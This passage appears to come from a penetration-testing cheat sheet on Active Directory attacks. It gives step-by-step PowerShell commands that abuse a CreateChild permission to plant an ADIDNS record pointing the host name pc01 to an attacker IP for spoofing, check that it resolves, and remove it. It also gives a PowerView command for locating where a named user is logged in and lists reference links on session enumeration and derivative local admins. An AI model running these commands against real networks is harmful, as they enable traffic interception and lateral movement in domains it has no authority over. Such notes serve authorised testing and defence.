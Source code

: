 This `CreateChild` permission is what we need.

2\. Create, configure the new DNS name that could be likely exploited for spoofing with Attacker's IP and enable it. I chose `pc01` which was found in DNS cache:

```
PS > New-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
PS > $dnsRecord = New-DNSRecordArray -Type A -Data 10.10.13.37
PS > Set-ADIDNSNodeAttribute -Node pc01 -Attribute dnsRecord -Value $dnsRecord -Credential $cred -Verbose
PS > Enable-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
```

3\. Check the newly created DNS object and try to resolve it. AD will need some time (\~180 seconds) to sync LDAP changes via its DNS dynamic updates protocol:

```
PS > Get-ADIDNSNodeAttribute -Node pc01 -Attribute dnsRecord -Credential $cred -Verbose
PS > Resolve-DNSName pc01
PS > cmd /c ping -n 1 pc01
```

4\. Cleanup:

```
PS > Remove-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
```




## User Hunt

* [http://www.harmj0y.net/blog/penetesting/i-hunt-sysadmins/](http://www.harmj0y.net/blog/penetesting/i-hunt-sysadmins/)
* [https://www.slideshare.net/harmj0y/i-hunt-sys-admins-20](https://www.slideshare.net/harmj0y/i-hunt-sys-admins-20)

```
PS > Find-DomainUserLocation -UserIdentity snovvcrash
```



### Sessions Enum

* [http://www.harmj0y.net/blog/powershell/powershell-and-win32-api-access/](http://www.harmj0y.net/blog/powershell/powershell-and-win32-api-access/)
* [http://www.harmj0y.net/blog/powershell/powerquinsta/](http://www.harmj0y.net/blog/powershell/powerquinsta/)



### Derivative Local Admins

* [http://www.harmj0y.net/blog/redteaming/local-group-enumeration/](http://www.harmj0y.net/blog/redteaming/local-group-enumeration/)
* [https://medium.com/@sixdub/derivative-local-admin-cdd09445aac8](https://medium.com/@sixdub/derivative-local-admin-cdd09445aac8)
* [https://wald0.com/?p=14](https://wald0.com/?p=14)
* [http://www.offensiveops.io/tools/bloodhound-working-with-results/](http://www.offensiveops.io/tools/bloodhound-working-with-results/)
* [[PDF] Pen Testing Active Directory Environments (Varonis)](https://drive.google.com/file/d/1OePiNlfL8-ZvbS0Ou27StfSJK6C2vA_J/view?usp=sharing)
